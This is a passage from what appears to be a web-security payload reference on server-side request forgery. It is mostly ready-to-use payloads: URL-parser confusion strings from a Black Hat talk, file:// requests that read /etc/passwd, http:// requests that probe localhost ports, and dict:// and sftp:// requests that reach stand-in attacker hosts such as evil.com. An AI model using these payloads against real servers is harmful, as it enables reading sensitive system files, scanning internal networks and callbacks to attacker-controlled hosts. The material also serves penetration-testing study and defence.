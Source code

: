 by Orange Tsai ([Blackhat A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf))

```powershell
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
```

![https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/SSRF_Parser.png?raw=true](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/WeakParser.jpg?raw=true)


## SSRF exploitation via URL Scheme

### File 

Allows an attacker to fetch the content of a file on the server

```powershell
file://path/to/file
file:///etc/passwd
file://\/\/etc/passwd
ssrf.php?url=file:///etc/passwd
```

### HTTP

Allows an attacker to fetch any content from the web, it can also be used to scan ports.

```powershell
ssrf.php?url=http://127.0.0.1:22
ssrf.php?url=http://127.0.0.1:80
ssrf.php?url=http://127.0.0.1:443
```

![SSRF stream](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/Images/SSRF_stream.png?raw=true)

The following URL scheme can be used to probe the network

### Dict

The DICT URL scheme is used to refer to definitions or word lists available using the DICT protocol:

```powershell
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/
```

### SFTP 

A network protocol used for secure file transfer over secure shell

```powershell
ssrf.php?url=sftp://evil.com:11111/
```
